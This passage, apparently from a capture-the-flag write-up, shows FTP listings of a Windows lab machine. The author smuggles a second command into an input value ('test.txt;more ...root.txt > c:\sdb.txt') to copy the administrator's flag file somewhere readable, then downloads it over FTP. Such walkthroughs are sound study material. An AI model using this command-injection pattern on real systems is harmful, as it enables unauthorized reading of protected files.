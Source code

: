 ```console
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
04-28-19  05:11PM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-25-19  10:56PM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
04-28-19  06:38PM                  538 sdb_test.txt
04-28-19  05:11PM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-25-19  10:56PM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
```

It took a few refreshes but it seemed to work. I should be able to redirect `root.txt` to `sdb.txt` because on machines like this *where* the flag is usually isn't a mystery, its how to get it. It should be on the Administrator's desktop:

```test.txt;more c:\Users\Administrator\Desktop\root.txt > c:\sdb.txt```  

```ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
04-28-19  06:38PM                  538 output.txt
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
04-28-19  06:51PM                   74 sdb.txt
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> get sdb.txt
```